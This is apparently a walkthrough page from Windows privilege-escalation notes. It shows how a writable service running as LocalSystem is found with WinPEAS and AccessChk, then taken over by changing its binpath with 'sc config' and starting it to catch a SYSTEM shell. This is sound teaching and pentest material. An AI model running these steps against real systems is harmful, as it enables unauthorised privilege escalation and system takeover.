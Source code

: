 # Insecure Service Permissions
This is a technique which leverages misconfigurations in the service permissions for a specific user. If permissions for a specific user differ from the ones above, then they may manifest as a possible vulnerability.

To identify such services, it is useful to use WinPEAS as mentioned above.
![](Resources/Images/WinPEAS%20daclsvc.png)

The permissions a user has on a specific service can be inspected via the [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) Windows Utility. 

```powershell
acceschk.exe /accepteula -uwcqv <account> <service> 
```

![](Resources/Images/Access%20Check%20Permissions.png)

It appears that `user` has write access to the service `daclsvc` and can also start the service.  We can query the service to see what user account is actually executing it:

```powershell
sc qc <service>
```

![](Resources/Images/Query%20Service.png)

It appears that the service is running as `LocalSystem` which is an account with more privileges than our `user` account. If we can write to the service, then we can alter its configuration and change the path to the executable which is supposed to be run:

```powershell
sc config <service> binpath="\"<path>\""
```

![](Resources/Images/Change%20Config.png)

All we now need to do is setup a listener and run the service:
```powershell
net start <service>
```

And we get a system shell back:

![](Resources/Images/Shell.png)
